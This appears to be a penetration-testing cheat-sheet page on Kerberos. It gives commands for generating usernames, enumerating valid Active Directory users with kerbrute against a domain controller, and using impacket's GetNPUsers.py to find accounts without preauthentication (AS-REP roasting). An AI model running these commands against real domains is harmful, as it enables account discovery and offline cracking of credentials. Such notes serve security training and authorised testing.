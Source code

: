# Kerberos

### User Discovery

_Compile usernames_

```
/opt/username-anarchy/username-anarchy --input-file ./test-names.txt
```

_Find valid users_

{% code overflow="wrap" %}
```
kerbrute userenum /usr/share/wordlists/seclists/Usernames/Names/names.txt -d $domain --dc $ip
```
{% endcode %}

### UF DONT REQUIRE PREAUTH

{% code overflow="wrap" %}
```
GetNPUsers.py $domain/ -no-pass -usersfile /path/to/names.txt -dc-ip $ip
```
{% endcode %}
